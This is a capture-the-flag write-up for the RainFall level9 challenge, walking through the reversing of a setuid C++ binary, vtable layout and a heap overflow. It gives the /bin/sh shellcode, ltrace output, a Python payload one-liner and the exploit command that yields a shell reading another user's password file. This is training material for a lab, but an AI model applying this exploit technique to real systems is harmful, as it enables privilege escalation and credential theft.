


# LEVEL9

## 1. Inspect The Executable

```bash
level9@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 bonus0 users 6720 Mar  6  2016 level9
```

We can see that the binary has the `s` bit set on the **execution permission**, which means the program will run with bonus0 privileges.

```bash
level9@RainFall:~$ ./level9 
level9@RainFall:~$ ./level9 a
level9@RainFall:~$ ./level9 a a
level9@RainFall:~$ ./level9 aaaaaaaaaaaaa a
level9@RainFall:~$ ./level9 aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa a
```

The program do nothing at first sights. 


```bash
level9@RainFall:~$ ./level9 aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa a
level9@RainFall:~$ ./level9 aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa a
level9@RainFall:~$ ./level9 aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa a
Segmentation fault (core dumped)
```

These tests indicate a **buffer overflow vulnerability** (here triggered with 109 `a` characters), meaning there is probably **no protection** on the input buffer.

## 2. Analyze The Executable

```bash
(gdb) info functions
All defined functions:

Non-debugging symbols:
[...]
0x080485f4  main
[...]
0x080486f6  N::N(int)
0x0804870e  N::setAnnotation(char*)
0x0804873a  N::operator+(N&)
0x0804874e  N::operator-(N&)
[...]
```

Using the gdb command `info functions`, we can list all functions present in the binary.
Here, we find the `main function` and an important information. we can see that the **binary contains `C++` class methods**, which confirms that this is a **`C++` program**.

This class is named `N` and contains :
- `N::N(int)` : A **constructor** used to initialize an instance of the class with an integer value.
- probably `N::~N()` : A **destructor**.
- `N::setAnnotation(char*)` : A **method**. 
- `N::operator+(N&)` : An **overload operator `+`** to combine 2 `N` objects.
- `N::operator-(N&)` : An **overload operator `-`** to subtract one `N` object from another.

### Program Behavior

### `vtable` Understanding

To better understanding this level, we need to understand how **`vtables`** works in `C++`.

`vtable` stand for **`Virtual TABLE`**. It is a mechanism used by **`C++`** to **implement polymorphism** (i.e. the ability for a base class pointer or reference to call the correct method of a derived class).

For each class that defines `virtual methods`, the compiler **generates a `vtable`**, which is essentially a **table of function pointers**. Each entry in this table corresponds to one virtual method of the class.

Every object of such a class contains a **hidden pointer** (usually at the very beginning of the object) that **points to its class’s `vtable`**. When a virtual method is called, the program:
- **Reads** the **`vtable` pointer** from the object.
- **Looks up** the correct **function address** in the `vtable`.
- **Calls** that **function** indirectly.

#### main function

The `main` function first checks if there at least 1 argument. If not, the program exits.

It then **allocates 2 objects of type `N`** using operator `new`, each with a size of **`0x6c` bytes** (108 in decimal). After allocation, the **constructor `N::N(int)`** is called on each object. The first object (`this`) is initialized with the value `5`, and the second object (`this_00`) is initialized with the value `6`.

Next, the program **calls** the **method `setAnnotation()`** on the first object, passing `argv[1]` as argument.

Then the program performs a **calls** to a **`virtual method`** with `this_00` and `this` as parameters. The **`method`** is **retrived** from the **`vtable` of `this_00`**.

And then returns.

#### N(int) function

The **constructor initializes** the object by writing a **pointer** at the **beginning of the allocated memory**. This pointer corresponds to the **`vtable`** address of **class `N`**. The constructor also stores the integer parameter at offset `0x68` inside the object.

#### N:setAnnotation methode

The `setAnnotation()` method **copies the input string** given into `this + 4` (with the input' size as limiter) using `memcpy()`.

#### Deduced class N

From the **constructor and the `setAnnotation()` method**, we can deduce a **pseudo class `N`**:

```c++
class N
{
private:
	char annotation_buffer;	// this + 4			(0x68 - 4 = 0x64 or 100 in decimal)
	int integer;	// this + 0x68
public:
	N(int i);
	~N();

	N:setAnnotation(char s);
  
};
```

And we can also deduce the **internal layout** of a **class `N`**:
```
0x00 (0)	| vtable pointer 
0x04 (4)	| annotation buffer
0x68 (104)	| integer value
0x6c (108)	| end of the object
```

## 3. Exploit Development

In this level, there is no `system` call, so we need to **execute our own code** by **injecting a shellcode**.

We will use the following x86 Linux `/bin/sh` shellcode:

```
\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80
```

A **shellcode** is a **sequence of machine instructions** encoded in hexadecimal. It is not human-readable, and it is **executable by the CPU**.

(This one was taken from [shell-storm](https://shell-storm.org/shellcode/files/shellcode-841.html).)

---

### Redirect the Flow

The goal is now to **redirect** the **execution flow** to this **shellcode**.

In this program, the only **indirect call** is the **`virtual method` call** performed on `this_00`.

This means by **overwriting the `vtable` pointer** of `this_00`, we can **redirect the execution flow**.

---

### Heap Layout

Both objects (`this` and `this_00`) are **allocated consecutively** on the heap. The heap layout looks like this:



Note:
The **4 bytes** of **heap chunk metadata** include both the **metadata** itself and **any padding** required to satisfy **8-byte alignment** on **x86 32-bit systems**. The exact size and contents of the metadata can vary depending on the allocator and architecture.

---

### Payload Layout

From the heap layout, the initial idea would be to **overwrite the `vtable` pointer** with the **address of the shellcode**, leading to the following payload:

<shellcode> + <buffer overflow> + <shellcode address>
```
	21		+ 		87		 	+ 			4				 = 112 bytes
└─────────────┬────────────────┘
			108 bytes
```

However, this will **not work** because of how the **virtual call** is performed:

```c++
  (*(code *)**(undefined4 **)this_00)(this_00,this);
```

The call performs **2 dereferences**:
- Dereference `this_00` to get the to `vtable`.	
- Dereference `vtable` to get the to function pointer.

**Note:**
A **dereference** means **accessing** the **value stored** at a **memory address**, rather than the address itself.

Because of this double dereference, the **overwritten value cannot point directly** to the shellcode.
Instead, it must point to a **memory location** that itself **contains a pointer** to the shellcode.

Therfore, the payload must be structured as follows:
```
<transfer address> + <shellcode> + <buffer overflow> + <annotation_buffer address>
			4		   +	21		 + 			87		 + 				4				 = 112 bytes
└───────────────────────────┬───────────────────────────┘
					    108 bytes
```

Where `<transfer address>` points to the shell code.



---

### Get Exploit Values

First, we need the **address of the `annotation_buffer`**.

We can retrieve it using `ltrace`:

```bash
level9@RainFall:~$ ltrace ./level9 aaaa aaaa
__libc_start_main(0x80485f4, 3, 0xbffff7e4, 0x8048770, 0x80487e0 <unfinished ...>
_ZNSt8ios_base4InitC1Ev(0x8049bb4, 0xb7d79dc6, 0xb7eebff4, 0xb7d79e55, 0xb7f4a330) = 0xb7fce990
__cxa_atexit(0x8048500, 0x8049bb4, 0x8049b78, 0xb7d79e55, 0xb7f4a330) = 0
_Znwj(108, 0xbffff7e4, 0xbffff7f4, 0xb7d79e55, 0xb7fed280)      = 0x804a008
_Znwj(108, 5, 0xbffff7f4, 0xb7d79e55, 0xb7fed280)               = 0x804a078
strlen("aaaa")                                                  = 4
memcpy(0x0804a00c, "aaaa", 4)                                   = 0x0804a00c
_ZNSt8ios_base4InitD1Ev(0x8049bb4, 11, 0x804a078, 0x8048738, 0x804a00c) = 0xb7fce4a0
+++ exited (status 11) +++ 
```

The **`annotation_buffer` address** can be identified from the `memcpy` call and its **return value**, which indicates the destination pointer : `0x0804a00c`. In little-endian format:
```
\x0c\xa0\x04\x08
```

**Note:**
We can observe the 2 `N` object allocations here:
```bash
_Znwj(108, 0xbffff7e4, 0xbffff7f4, 0xb7d79e55, 0xb7fed280)      = 0x804a008
_Znwj(108, 5, 0xbffff7f4, 0xb7d79e55, 0xb7fed280)               = 0x804a078
```

The addresses confirm a distance of `112 bytes` between the 2 objects:
```
0x804a078 - 0x804a008 = 0x70 = 112 bytes.
```

This matches the expected object size:
- `0x6c` (108 bytes) for the object itself.
- + `4 bytes` for alignment / metadata.

---

Next, we need to **build** the **transfer address**.

The **shellcode starts** `4 bytes` **after** the **beginning** of `annotation_buffer` (the first `4 bytes` are used as the transferable pointer).
So we simply **shift the `annotation_buffer` address** by `4 bytes`:
```
0x0804a00c + 4 bytes = 0x0804a010 
```

The **transfer address** is therefore : `0x0804a010`. In little-endian format:
```
\x10\xa0\x04\x08
```

### Create the Payload

```bash
python -c "print '\x10\xa0\x04\x08' + '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80' + 'a' * 83  + '\x0c\xa0\x04\x08'"
```

**Explanation:**
- `python`			: launches the Python interpreter.
- `-c` 				: executes the command passed as a string.
- `print` 			: outputs data to standard output.

## 4. Capture The Flag

```bash
./level9 $(python -c "print '\x10\xa0\x04\x08' + '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80' + 'a' * 83  + '\x0c\xa0\x04\x08'")
$ id
uid=2009(level9) gid=2009(level9) euid=2010(bonus0) egid=100(users) groups=2010(bonus0),100(users),2009(level9)
$ cat /home/user/bonus0/.pass
XXX
exit
```
